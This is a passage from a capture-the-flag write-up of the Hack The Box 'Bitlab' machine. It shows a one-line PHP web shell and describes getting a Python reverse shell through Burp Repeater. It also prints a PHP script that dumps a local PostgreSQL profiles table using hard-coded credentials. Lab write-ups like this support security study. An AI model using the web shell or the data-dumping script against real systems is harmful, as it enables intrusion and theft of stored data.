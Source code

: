 Reverse Shell Payload
~~~php
<?php shell_exec($_GET['cmd']) ?>
~~~

I used Burp Repeater to send payloads as with Option 1. I used [Pentest Monkey's](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"} python reverse shell payload to get a reverse shell back to my machine. [(4)]

{:refdef: style="text-align: center;"}
![Burp Reverse Shell Payload](../../assets/img/writeups/htb/bitlab/alternative_burp.png)
{: refdef}

This gives us a shell with user `www-data`. From there, I created /tmp/exploit.php which contained a slightly modified version of the original payload (uses echo instead of cookie exfiltration)

~~~php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$output =  pg_fetch_all($result);
// Neccessary to convert data rows to a readable string
$serial = serialize($output);
echo $serial;
?>
~~~

Running the scripts gives us the same results as in Option 1.

![www-data shell](../../assets/img/writeups/htb/bitlab/alternative_execution.png)
